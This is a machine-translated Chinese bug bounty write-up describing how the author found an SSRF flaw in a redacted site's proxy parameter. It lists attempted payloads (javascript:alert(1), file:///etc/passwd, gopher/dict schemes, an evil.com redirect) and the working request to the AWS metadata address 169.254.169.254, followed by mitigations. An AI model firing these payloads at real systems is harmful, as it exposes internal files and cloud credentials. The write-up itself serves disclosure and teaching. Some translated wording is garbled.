 # SSRF 导致访问 AWS 元数据。

> 原文：<https://infosecwriteups.com/ssrf-leads-to-access-aws-metadata-21952c220aeb?source=collection_archive---------0----------------------->

![](img/9ffacc8a739c353938ca06434253e362.png)

你好 **队友们**，我是来自印度的阿卡什·帕蒂尔(@skypatil98)。在过去的两年半里，我一直在昆虫赏金领域工作。我之前的博客都是关于 [**IDOR 导致所有用户****【ATO】**](https://skypatil.medium.com/idor-leads-to-change-the-password-of-all-users-ato-b598f610a009)修改密码的，这是我在一个私人程序上发现的。如果你还没有看过那个博客，你可以点击这个[链接来阅读。如果有任何语法错误，请留下来。不浪费任何时间，我们将从这篇文章开始。](https://skypatil.medium.com/idor-leads-to-change-the-password-of-all-users-ato-b598f610a009)

**那么让我们开始吧！😉**

# 什么是 SSRF？

在服务器端请求伪造(SSRF)攻击中，攻击者可以诱导服务器上的功能读取或更新内部资源。攻击者可以读取服务器配置(如 AWS 元数据),连接到内部服务(如启用 http 的数据库),或者对不打算公开的内部服务执行 post 请求。了解更多关于 SSRF 的信息。

> *我们先把目标当成* `*reducted.com*` *因为我不能透露节目名称。*

之后，我检查了 burp http 历史上的每个请求，因此我使用 Burp Search 来查找可能的参数，

```
url={target}
file={target}
filename={target}
[**top 25 params**](https://github.com/lutfumertceylan/top25-parameter/blob/master/ssrf-parameters.txt)
```

并且找到了一个长这样的 **url=** 。

`*reducted.com/gadgets/proxy/?url=*`

# 1)尝试打开重定向

这个网址就像 https://reducted.com/gadgets/proxy/?url=https://evil.com 的

但是失败了:(它抛出了一个错误

![](img/f35b1c08402e27e4b140d3526f358da5.png)

# 2)为 XSS 尝试

网址是这样的

[/小工具/代理](https://reducted.com/gadgets/proxy?url=?url=https://evil.com) / [？URL = JavaScript:alert(1)；](https://reducted.com/viewimage/?url=javascript:alert(1);)

[/小工具/代理](https://reducted.com/gadgets/proxy?url=?url=https://evil.com) / [？url=http://14.rs](https://reducted.com/viewimage/?url=http://14.rs)

[/小工具/代理](https://reducted.com/gadgets/proxy?url=?url=https://evil.com) [？URL = http://brute logic . com . br/POC . SVG](https://reducted.com/viewimage/?url=http://brutelogic.com.br/poc.svg)

但是失败了:(

![](img/4b92c1326ac39067e4b31325b1619f31.png)

它抛出一个不允许的错误方法

# 3)为 LFI 尝试

网址好像是[https://reducted.com/gadgets/proxy/?url=file:///etc/passwd](https://reducted.com/viewimage/?url=file:///etc/passwd)

![](img/591f8479836c3d8c372ad0aaf944dd99.png)

但是失败了 **:(** 错误 url 模式只有 HTTP 或 HTTPS。

我尝试了 URL 模式来读取内部，并让服务器执行这些操作[ `file:///`、`dict://`、`ftp://`、`gopher://`，但是**:(失败！**

![](img/4f0ed9dc0822e51b1dee82c9938d9375.png)![](img/91b76704d702a18527194f5d59c0aae0.png)

所以我访问了这个网址，但是它没有加载内容，一个简单的文本文件被反射和下载，里面什么也没有。

*   **读取 AWS 元数据**

在做了很多其他事情后，我没有得到任何结果，所以我记得 AWS 的神奇 IP 只是为了试一试，我用下面的 IP 替换了 URL 参数，这是 AWS 使用的神奇 IP。

![](img/e07dc3aa485f08bd649dcb8781251c31.png)

像这样创建 URL:

```
[https://reducted.com/gadgets/proxy/?url=](https://reducted.com/viewimage/?url=file:///etc/passwd)[http://169.254.169.254/latest/meta-data](http://169.254.169.254/latest/meta-data)
```

![](img/6883a580b3cab73f1f82e677f4266d28.png)

这下载了一个`reducted.txt`文件，打开它显示如下信息

![](img/2ed9d0fed588dae8d04779d89fd1e5a3.png)![](img/d414df1b5c9bf0a934cbce2c79f42aae.png)

AWS 元数据

# 缓解措施:

1.  白名单和 DNS 解析
2.  输入验证
3.  响应处理
4.  禁用未使用的 URL 模式
5.  内部服务认证

![](img/130c284b454802b00f2f3ad479b9dd6d.png)

看到悬赏金额后，我就想..**😭😭😭😭😭**

![](img/0695728bdd31ec95cf91d014ecc31429.png)

**参考文献:**

*   [https://hackerone.com/reports/53088](https://hackerone.com/reports/53088)
*   [https://sanderwind . medium . com/upgrading-ssrf-to-rce-7c 0147371 c 40](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40)
*   [https://medium . com/@ briskinfosec/ssrf-server-side-request-foregraphy-AE 44 EC 737 CB 8](https://medium.com/@briskinfosec/ssrf-server-side-request-forgery-ae44ec737cb8)
*   [https://medium . com/geek culture/ssrf-vulnerability-from-a-developers-perspective-3d 1562 f 29 c7c](https://medium.com/geekculture/ssrf-vulnerability-from-a-developers-perspective-3d1562f29c7c)
*   [https://corneacristian . medium . com/top-25-server-side-request-foregraphy-ssrf-bug-bounty-reports-136928356 ECA](https://corneacristian.medium.com/top-25-server-side-request-forgery-ssrf-bug-bounty-reports-136928356eca)

感谢阅读。如果你有任何问题，你可以在 [**推特**](https://twitter.com/skypatil98) 上给我发短信😊

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*
